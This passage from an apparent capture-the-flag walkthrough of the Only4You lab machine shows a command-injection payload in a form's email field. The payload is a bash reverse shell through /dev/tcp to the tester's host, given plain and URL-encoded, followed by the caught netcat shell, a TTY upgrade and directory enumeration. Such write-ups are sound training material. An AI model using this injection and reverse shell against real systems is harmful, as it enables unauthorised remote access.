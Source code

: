 

    name=0xdf&email=0xdf@only4you.htb; bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'&subject=test&message=test



That URL encodes (Ctrl-u in Burp) to:



    name=0xdf&email=0xdf%40only4you.htb%3b+bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261'&subject=test&message=test



On sending that, there's a connection back at my listening `nc`:



    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.210 44348
    bash: cannot set terminal process group (1005): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@only4you:~/only4you.htb$



I'll upgrade my shell using the [typical
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@only4you:~/only4you.htb$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@only4you:~/only4you.htb$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@only4you:~/only4you.htb$



## Shell as john

### Enumeration

#### Filesystem

There's not much else to find on the file system. Two users have home
directories, but I can't enter either:



    www-data@only4you:/home$ ls
    dev  john
    www-data@only4you:/home$ cd dev/
    bash: cd: dev/: Permission denied
    www-data@only4you:/home$ cd john/
    bash: cd: john/: Permission denied
